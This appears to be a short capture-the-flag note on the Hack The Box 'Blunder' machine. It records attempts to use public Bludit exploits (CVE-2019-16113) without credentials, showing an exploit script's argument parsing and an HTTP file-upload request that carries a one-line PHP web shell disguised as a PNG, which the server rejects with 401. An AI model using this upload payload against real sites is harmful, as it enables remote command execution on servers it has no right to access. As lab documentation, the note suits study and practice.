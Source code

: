 # Bludit exploits without login

For [48568](https://www.exploit-db.com/exploits/48568) there's the option to specify creds as arguments.

```shell
root@kali:~/CTF/HTB/Blunder# ./48568.py -h


╔╗ ┬  ┬ ┬┌┬┐┬┌┬┐  ╔═╗╦ ╦╔╗╔
╠╩╗│  │ │ │││ │   ╠═╝║║║║║║
╚═╝┴─┘└─┘─┴┘┴ ┴   ╩  ╚╩╝╝╚╝

 CVE-2019-16113 CyberVaca


usage: 48568.py [-h] -u URL -user USER -pass PASSWORD -c COMMAND

Bludit RCE Exploit v3.9.2 CVE-2019-16113 By @CyberVaca

optional arguments:
  -h, --help      show this help message and exit
  -u URL          Url Bludit
  -user USER      Username
  -pass PASSWORD  Password
  -c COMMAND      Command to execute
```

It says optional here, but this is misleading because the code which uses argparse required specifying creds.

```python3
def get_args():
    parser = argparse.ArgumentParser(description='Bludit RCE Exploit v3.9.2 CVE-2019-16113  \nBy @CyberVaca')
    parser.add_argument('-u', dest='url', type=str, required=True, help='Url Bludit')
    parser.add_argument('-user', dest='user', type=str,required=True, help='Username')
    parser.add_argument('-pass', dest='password', type=str, required=True, help='Password' )
    parser.add_argument('-c', dest='command', type=str, required=True, help='Command to execute' )
    return parser.parse_args()
```

I also looked at [46060](https://www.exploit-db.com/exploits/46060) and used Burp to replicate the Web request.

```text
POST /admin/ajax/upload-files HTTP/1.1
Host: 10.10.10.191
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: BLUDIT-KEY=2vdc7mvgt0aatmr9c3h95ki2m5
Upgrade-Insecure-Requests: 1
Content-Length: 415
Content-Type: application/x-www-form-urlencoded

-----------------------------26228568510541774541866388118
Content-Disposition: form-data; name="tokenCSRF"

67987ea926223b28949695d6936191d28d320f20
-----------------------------26228568510541774541866388118
Content-Disposition: form-data; name="bluditInputFiles[]"; filename="poc.php"
Content-Type: image/png

<?php system($_GET["cmd"]);?>

-----------------------------26228568510541774541866388118--

HTTP/1.1 401 User not logged.
Date: Sun, 29 Nov 2020 09:07:54 GMT
Server: Apache/2.4.41 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 0
Connection: close
Content-Type: text/html; charset=UTF-8
```

But got 401 User not logged.